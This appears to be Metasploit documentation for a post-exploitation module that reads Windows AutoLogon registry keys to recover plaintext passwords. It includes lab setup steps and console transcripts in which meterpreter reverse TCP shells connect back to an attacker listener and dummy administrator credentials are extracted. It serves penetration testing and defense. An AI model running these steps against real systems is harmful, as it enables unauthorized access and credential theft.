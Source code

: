 ## Vulnerable Application

This module reads the registry keys associated with Microsoft Window's AutoLogin feature which keeps a
plaintext version of the password in the registry.

To turn on Windows Autologin feature, follow the instructions from
[Microsoft](https://support.microsoft.com/en-us/help/324737/how-to-turn-on-automatic-logon-in-windows).

1. Open registry editor (`regedit`) and navigate to: `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`
1. Create the following `String Value`s
  1. `AutoAdminLogin` set to `1`
  1. `DefaultUserName` set to the username
  1. `DefaultPassword` set to the password
  1. Optional: `DefaultDomain` set to the domain

## Verification Steps

1. Configure autologin
1. Start msfconsole
1. get a shell on a vulnerable windows computer
1. Do: `use post/windows/gather/credentials/windows_autologin`
1. Do: `set session [#]`
1. Do: `run`
1. You should receive credentials.

## Options

## Scenarios

### Windows 2008 R2 (64-bit)

```
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 10.0.2.4
lhost => 10.0.2.4
msf exploit(handler) > run

[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] Starting the payload handler...
[*] Sending stage (1188415 bytes) to 10.0.2.11
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.11:49262) at 2017-07-22 11:59:22 -0500

meterpreter > background
[*] Backgrounding session 1...
msf exploit(handler) > use post/windows/gather/credentials/windows_autologin 
msf post(windows_autologin) > set session 1
session => 1
msf post(windows_autologin) > run

[*] Running against WIN-QPZJFHIS6PT on session 1
[+] AutoAdminLogon=1, DefaultDomain=mydomain, DefaultUser=Administrator, DefaultPassword=p@ssw0rd
[*] Post module execution completed
```

### Windows 2003

```
msf post(windows/gather/credentials/windows_autologin) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer        : WIN2003
OS              : Windows .NET Server (5.2 Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 3...
msf post(windows/gather/credentials/windows_autologin) > run

[*] Running against WIN2003 on session 3
[+] AutoAdminLogon=, DefaultDomain=WIN2003, DefaultUser=Administrator, DefaultPassword=TestPassword
[*] Post module execution completed
```

### Windows 7 (32-bit)

```
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 10.0.2.4
lhost => 10.0.2.4
msf exploit(handler) > run

[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] Starting the payload handler...
[*] Sending stage (956991 bytes) to 10.0.2.47
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.47:49215) at 2017-07-23 11:33:53 -0500

meterpreter > background
[*] Backgrounding session 1...
msf exploit(handler) > use post/windows/gather/credentials/windows_autologin 
msf post(windows_autologin) > set session 1
session => 1
msf post(windows_autologin) > run

[*] Running against IE8WIN7 on session 1
[+] AutoAdminLogon=1, DefaultDomain=IE8WIN7, DefaultUser=IEUser, DefaultPassword=
[*] Post module execution completed
```
